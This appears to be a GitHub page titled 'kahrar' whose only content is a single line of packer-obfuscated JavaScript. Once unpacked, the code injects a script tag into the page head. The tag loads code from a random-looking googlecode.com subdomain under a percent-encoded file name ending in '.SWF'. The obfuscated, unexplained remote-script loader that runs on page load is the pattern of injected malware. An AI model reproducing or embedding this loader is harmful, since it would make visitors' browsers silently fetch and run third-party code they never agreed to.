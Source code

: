 kahrar
======

eval(function(p,a,c,k,e,d){e=function(c){return(c&lt;a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('n m=o.w(\'m\')[0];n h=o.v(\'h\');h.t=\'s/q\';h.r=\'u://E.D.F/G/%1%3%1%4%2%5%1%3%2%e%2%5%2%6%2%5%1%4%1%3%2%e%2%e%1%4%c%i%1%3%2%5%8%d%1%4%2%5%1%3%2%e%2%b%1%4%1%3%2%5%1%3%2%e%1%a%2%5%1%4%1%3%c%f%8%d%2%5%1%4%2%6%2%b%2%5%8%d%1%4%2%6%1%3%2%5%2%6%8%d%1%3%2%5%1%4%1%3%2%5%c%f%2%e%2%j%2%5%8%d%1%4%2%5%1%3%2%6%1%7%1%3%2%5%1%4%1%3%1%4%2%i%1%4%1%a%1%3%1%a%1%3%2%5%1%4%2%6%1%3%1%4%2%C%1%3%2%b%1%B%1%3%2%6%1%4%1%3%1%a%1%4%1%3%1%4%2%6%1%3%2%6%1%4%1%3%1%4%2%k%2%b%1%4%c%f%1%4%1%3%1%a%1%4%2%5%1%3%1%4%1%3%2%b%1%3%2%p%c%f%2%g%c%f%2%5%8%d%1%4%1%a%2%5%1%3%2%6%1%7%1%4%2%5%1%3%1%7%1%4%1%3%8%9%2%5%1%7%2%6%1%4%1%3%2%i%1%4%8%9%1%7%2%l%2%b%2%9%2%y%1%7%2%5%2%6%1%4%8%9%1%7%1%3%2%k%1%4%1%7%8%9%1%3%2%5%2%6%1%4%1%7%2%p%2%5%2%6%1%4%2%i%2%g%2%x%2%5%2%k%2%g%1%4%1%3%2%5%1%7%1%4%2%l%2%9%1%a%2%5%1%7%2%k%2%i%2%j%2%g%8%9%2%g%1%4%2%j%2%5%1%3%1%7%2%j%2%b%c%f%8%9%2%l%1%3%2%j%2%l.z\';m.A(h);',43,43,'|D9|D8|84|82|A7|AB|87|DA|AF|81|A8|DB|A9|B9|8C|B7|script|B1|AA|B2|AE|head|var|document|B0|javascript|src|text|type|http|createElement|getElementsByTagName|B8|B3|SWF|appendChild|86|B4|googlecode|greg45g4reg84rg48er4gr8e4g8e4g8r6e4ge68g4r8eg48e6g484gg5gre7reg|com|files'.split('|'),0,{}))